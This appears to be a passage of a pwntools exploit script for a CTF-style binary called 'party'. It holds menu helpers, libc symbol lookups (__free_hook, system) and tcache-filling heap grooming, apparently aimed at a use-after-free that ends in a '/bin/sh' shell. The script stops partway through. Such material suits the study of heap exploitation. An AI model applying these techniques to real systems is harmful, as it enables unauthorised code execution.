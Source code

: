 ```python
    return u64(s.recvline().rstrip().ljust(8, b"\x00"))


# set tmp_p
def view_person(s, house_idx, person_idx):
    select(s, 6)
    s.recvuntil(" : ")
    s.sendline(str(house_idx))
    s.recvuntil(" : ")
    s.sendline(str(person_idx))


# free all person
def party(s, house_idx):
    select(s, 7)
    s.recvuntil(" : ")
    s.sendline(str(house_idx))


def destroy_house(s, house_idx):
    select(s, 8)
    s.recvuntil(" : ")
    s.sendline(str(house_idx))


if __name__ == "__main__":
    """
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    """
    elf = ELF("party")
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    free_hook_libc = libc.symbols["__free_hook"]
    malloc_hook_libc = libc.symbols["__malloc_hook"]
    system_libc = libc.symbols["system"]
    one_gadgets = []
    main_arena_top = 0x1ebbe0

    # s = process(["./ld-linux-x86-64.so.2", elf.path], env={"LD_PRELOAD": libc.path})
    s = process(elf.path)

    create_house(s, "0", 0x18, "0")
    create_house(s, "/bin/sh", 0x18, "/bin/sh")
    create_person(s, "qwer", 0x18, "first freed")   # 0
    create_person(s, "qwer", 0x418, "large")  # 1
    
    # chunks for filling tcache
    for i in range(2, 12):
        create_person(s, str(i), 0x18, "fill tcache")

    create_person(s, "aaa", 0x38, "avoid sigsegv")  # 13

    for i in range(0, 10):
        add_person(s, i, 0)
    
    for i in range(10, 13):
        add_person(s, i, 1)

    view_person(s, 0, 1)
    remove_person(s, 0, 0)
```